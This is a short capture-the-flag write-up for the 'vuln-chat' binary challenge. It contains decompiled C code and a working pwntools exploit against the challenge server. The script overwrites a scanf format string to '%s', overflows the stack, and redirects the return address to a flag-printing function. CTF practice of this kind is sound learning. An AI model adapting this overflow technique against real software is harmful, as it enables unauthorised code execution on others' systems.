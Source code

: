 # Writeup Of AceBear Team

First, use IDA pro to view source code i have:
```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+3h] [ebp-2Dh]
  char v5; // [esp+17h] [ebp-19h]
  int v6; // [esp+2Bh] [ebp-5h]
  char v7; // [esp+2Fh] [ebp-1h]

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  v6 = 's03%';
  v7 = 0;
  __isoc99_scanf(&v6, &v5);
  printf("Welcome %s!\n", &v5);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", &v5);
  __isoc99_scanf(&v6, &v4);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```
```C
int printFlag()
{
  system("/bin/cat ./flag.txt");
  return puts("Use it wisely");
}
```
When i input username, i can overwrite value of `v6`.
In this case i overwrite value of `v6` to `%s`.
In next step i can overflow stack and overwrite return address to address of `printFlag()`.

```py
from pwn import *
from time import *
printflag = 0x0804856B

r = remote('vulnchat.tuctf.com', 4141)
# r = process('./vuln-chat')
# gdb.attach(r ,)
r.recvuntil('Enter your username: ')
r.sendline('a'*20+'%s\x00')
sleep(1)
r.sendline('a'*0x2d+p32(printflag)*2)
r.interactive()
```
